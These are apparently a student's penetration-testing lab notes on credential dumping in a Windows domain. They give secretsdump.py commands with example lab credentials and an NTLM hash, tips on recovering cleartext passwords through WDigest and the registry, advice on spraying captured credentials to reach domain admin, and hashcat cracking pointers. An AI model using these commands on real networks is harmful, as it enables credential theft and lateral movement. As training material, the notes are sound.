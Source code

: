 # Dumping hashes 
```
secretsdump.py <DOMAIN/user>: '<password>'@<IP>
```
		ex
```
secretsdump.py MARVEL.local/tstark: 'Password2'@192.168.88.102
```
	you can also do it with hashes
		ex
```
secretsdump.py administrator:192.168.88.101 -hashes ad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```
All accounts on the device besides: Guest, Default, WDGAUtilityAccount are worth looking at 

There is a chance to dump passwords in clear text
	passwords stored in the registry - they will appear in clear text
	if wdigest (older protocol) 
		enabled by default on older OS
			want to find an older OS via info gathering 
			this process might be enabled by default
when pentesting a real network, once we have a foothold on an acccount, use that account to spray the rest of the network, you can then find more accounts, and then spray again. this can allow you to finally find an domain admin or gain higher priv

Cracking passwords
	you only need the second portion (NT) 
	hashcast --help 
	hashcat --help | grep ntlm


